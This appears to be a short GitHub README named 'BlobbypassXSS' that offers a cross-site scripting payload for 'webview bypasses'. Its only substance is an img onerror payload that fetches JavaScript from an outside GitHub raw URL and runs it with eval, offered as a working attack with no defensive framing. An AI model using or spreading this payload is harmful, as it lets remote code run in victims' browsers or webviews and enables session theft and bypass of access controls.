 # BlobbypassXSS
## Some XSS that can be used for multiple webview bypasses.
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/code-andrewy/Schoolwork/refs/heads/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
```
